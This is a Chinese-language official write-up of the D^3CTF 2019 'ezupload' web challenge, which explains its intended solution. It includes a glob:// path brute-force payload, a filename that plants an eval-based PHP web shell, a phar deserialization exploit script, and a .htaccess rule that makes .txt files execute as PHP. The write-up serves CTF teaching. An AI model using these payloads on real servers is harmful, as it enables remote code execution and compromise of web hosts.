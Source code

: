 # D^3ctf 2019 Official Writeup ezupload
> 出题人：Lou00@Vidar
> 考察点：glob://爆破 文件上传写shell
> 题目描述: webroot in /var/www/html
> hint1: webroot changes every 10 mins
> hint2: glob
> hint3: https://www.php.net/manual/en/language.oop5.decon.php   Pay attention to the notes in the article 

## 前言
赛后看到了Nu1l的非预期,直接把第一考点绕过了
导致给的一些hint没啥用 (hint真是害人不浅_(:з」∠)_
## 预期解
通过审计代码可以发现存在反序列化漏洞,可以任意文件写入
但是如果是用相对路径的话,发现无法写入
通过hint3知道
![-w828](http://image.lou00.top/img/ezupload/15747757481797.jpg)
在析构函数中工作目录可能会变
以下代码可以测试
![-w344](http://image.lou00.top/img/ezupload/15747755154564.jpg)
意思是要找到绝对路径
所以第一部分的payload是
```
action=count&url=1&filename=1&dir=glob:///var/www/html/*/upload/{your_upload_path}/*
```
通过爆破得到路径(然而非了
得到路径后就可以通过文件名写shell了
构造类似与下面的文件名
```
action=upload&url=http://xxx&filename=<?php echo 1.1;eval($_GET["a"]);
```
构造反序列化

```php
<?php
class dir{
    public $userdir;
    public $url;
    public $filename;
    public function __construct($usedir,$url,$filename){
	$this->userdir = $usedir;
	$this->url = $url;
	$this->filename = $filename;
    }
}
$a = new dir('upload/{your_upload_path}','','');
$b = new dir($a,'','/var/www/html/xxx/upload/{your_upload_path}/2');
$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER();?>;"); 
$phar->setMetadata($b); 
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
echo urlencode(serialize($b));
```
上传后通过`file_get_contents`触发

```
action=upload&url=phar://upload/{your_upload_path}/1.jpg&filename=2.jpg
```
然后就会发现一个带有`<?`的txt文件
最后上传一个`.htaccess`文件
内容为

```
AddHandler php7-script .txt
```
即可解析php
最后是bypass `open_basedir`
最后附上一份比赛时用于检测flag的脚本
供师傅们参考